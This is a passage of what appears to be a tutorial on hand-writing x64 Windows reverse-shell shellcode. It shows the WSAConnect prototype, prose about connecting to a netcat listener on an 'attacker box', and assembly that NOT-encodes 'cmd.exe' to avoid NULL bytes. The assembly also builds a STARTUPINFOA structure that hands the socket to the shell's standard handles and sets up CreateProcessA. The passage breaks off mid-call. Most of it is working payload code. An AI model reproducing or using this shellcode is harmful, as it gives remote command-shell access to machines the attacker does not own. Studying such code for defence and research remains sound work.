 ```c++
int WSAAPI WSAConnect(
  [in]  SOCKET         s,
  [in]  const sockaddr *name,
  [in]  int            namelen,
  [in]  LPWSABUF       lpCallerData,
  [out] LPWSABUF       lpCalleeData,
  [in]  LPQOS          lpSQOS,
  [in]  LPQOS          lpGQOS
);
```

Here, we're adding the IP and port of our listener on our attacker box.  We're also doing some fancy stuff with our code to avoid NULLs such as NOT'ing our strings/values, etc.  Once this API is called, you should see a connection on your netcat or listening agent on your attacker box! 😸

***STARTUPINFOA, CreateProcessA and our command shell (cmd.exe)!!! + ExitProcess***
-

```nasm
;prepare for CreateProcessA
    add rsp, 0x30
    mov rax, 0xFF9A879AD19B929C  ; encode cmd.exe using NOT to remove NULL bytes
    not rax                      ; decode cmd.exe
    push rax                      
    mov rcx, rsp                ; RCX = lpApplicationName (cmd.exe)
    ; STARTUPINFOA Structure (I despise this thing)
	; https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    push r13                    ; Push STDERROR
    push r13                    ; Push STDOUTPUT
    push r13                    ; Push STDINPUT
    xor rax,rax
    push rax                    ; 8 bytes -> push lpReserved2
    push rax                    ; 8 bytes -> combine cbReserved2 and wShowWindow
    push ax                     ; dwFlags 4 bytes total, first 2 bytes
    mov al, 0x1                 ; STARTF_USESTDHANDLES
    shl eax, 0x8                ; = 0x100 and removes NULL bytes!
    push ax                     ; continuation of the above, last 2 bytes for dwFlags
    xor rax,rax  
    push rax                    ; dwFillAttribute (4 bytes) + dwYCountChars (4 bytes)
    push rax                    ; dwXCountChars (4 bytes) + dwYSize (4 bytes)
    push rax                    ; dwXSize (4 bytes) + dwY (4 bytes)
    push ax                     ; dwX 4 bytes total, first 2 bytes
    push ax                     ; dwX last 2 bytes
    push rax                    ; 8 bytes -> lpTitle
    push rax                    ; 8 bytes -> lpDesktop = NULL
    push rax                    ; 8 bytes -> lpReserved = NULL
    mov al, 0x68                ; total size of structure.  Move it into AL to avoid NULLs
    push rax                    
    mov rdi,rsp                 ; Copy the pointer to the structure to RDI
    ; Call CreateProcessA
    mov rax, rsp                ; Get current stack pointer
    sub ax, 0x4FF               ; Setup space on the stack for holding process info
    dec ax                      ; we're subtracting 0x500 in total but we do it this way to avoid nulls
    push rax                    ; ProcessInfo
    push rdi                    ; StartupInfo -> Pointer to STARTUPINFOA
    xor rax, rax
    push rax                    ; lpCurrentDirectory
    push rax                    ; lpEnvironment
    push rax                   
    inc rax
    push rax                    ; bInheritHandles -> 1
    xor rax, rax
```